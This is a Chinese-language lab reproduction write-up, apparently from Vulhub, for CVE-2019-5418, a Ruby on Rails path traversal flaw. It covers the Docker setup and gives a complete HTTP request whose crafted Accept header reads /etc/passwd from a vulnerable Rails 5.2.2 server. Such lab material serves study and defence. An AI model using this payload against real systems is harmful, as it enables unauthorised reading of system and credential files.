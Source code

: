 # Ruby On Rails 路径穿越与任意文件读取漏洞CVE-2019-5418

## 漏洞描述

在控制器中通过`render file`形式来渲染应用之外的视图，且会根据用户传入的Accept头来确定文件具体位置。我们通过传入`Accept: ../../../../../../../../etc/passwd{{`头来构成构造路径穿越漏洞，读取任意文件。

参考链接：

- https://groups.google.com/forum/#!topic/rubyonrails-security/pFRKI96Sm8Q
- https://xz.aliyun.com/t/4448

## 环境搭建

Vulhub执行如下命令编译及启动Rail On Rails 5.2.2：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:3000`即可看到Ruby on Rails的欢迎页面。

![image-20220228192120401](images/202202281921260.png)

## 漏洞复现

访问`http://your-ip:3000/robots`可见，正常的robots.txt文件被读取出来。

利用漏洞，发送如下数据包，读取`/etc/passwd`：

```
GET /robots HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: ../../../../../../../../etc/passwd{{
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

成功读取`/etc/passwd`：

![image-20220228192315692](images/202202281923976.png)